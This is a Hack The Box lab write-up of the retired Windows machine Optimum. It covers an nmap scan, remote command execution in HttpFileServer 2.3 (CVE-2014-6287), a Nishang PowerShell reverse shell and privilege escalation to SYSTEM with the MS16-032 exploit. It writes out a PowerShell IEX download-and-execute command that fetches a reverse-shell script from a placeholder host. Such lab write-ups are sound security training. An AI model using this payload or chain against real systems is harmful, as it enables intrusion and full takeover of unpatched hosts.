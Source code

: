 ```yaml
---
layout: single
title: Hack The Box - Optimum
permalink: /htb-optimum/
excerpt: "Optimum is an easy box from HacktheBox. This machine offers a lot of opportunities to learn a bunch of exploits since this is an old machine. It's start by exploiting the HttpFileServer to gain the initial foothold. On top of that, it teaches me the importance of understanding architecture. Even though, the machine is 64-bit but it certainly can run the 32-bit version of powershell executable."
classes: wide
header:
  teaser: "/assets/images/htb/optimum/Optimum.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
tags:
  - reverse-powershell
  - rce
  - CVE-2014-6287
  - CVE-2016-0099
  - MS16-032
  - httpfileserver
  - empire-project
  - windows-sysnative
---
```



![1](/assets/images/htb/optimum/Optimum.png)

### <font color="#9bffc8">Nmap</font>
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

### <font color="#9bffc8">HFS (HttpFileServer)</font>

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files.
> It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
> _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![1](/assets/images/htb/optimum/hfs-main-page.png)

### <font color="#9bffc8">CVE-2014-6287</font>
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

> CVE description:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### <font color="#9bffc8">Burpsuite</font>
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![1](/assets/images/htb/optimum/burpsuite-search-ping.png)

![1](/assets/images/htb/optimum/tcpdump-ping-tun0.png)

### <font color="#9bffc8">Nishang: Invoke-PowerShellTcp.ps1</font>

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/htb-responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/htb-responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![1](/assets/images/htb/optimum/python3-server-and-nc-listening.png)

![1](/assets/images/htb/optimum/burpsuite-with-powershell-reverse-shell.png)

![1](/assets/images/htb/optimum/nc-catch-the-shell.png)

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![1](/assets/images/htb/optimum/run-the-systeminfo-command.png)

### <font color="#9bffc8">MS16-032 : CVE-2016-0099</font>

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### <font color="9bffc8">EmpireProject: Invoke-MS16032.ps1</font>

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

> Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. <br>
> _resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![1](/assets/images/htb/optimum/download-ms16032-wget.png)

![1](/assets/images/htb/optimum/edit-the-exploit-file-ms16032.png)

![1](/assets/images/htb/optimum/put-at-the-last-line.png)

### <font color="#9bffc8">Windows: sysnative</font>

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![1](/assets/images/htb/optimum/example-tested-exploit.png)

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-32-bit.png)

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-64-bit.png)

### <font color="#9bffc8">Windows: Privilege Escalation</font>

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![1](/assets/images/htb/optimum/last-image.png)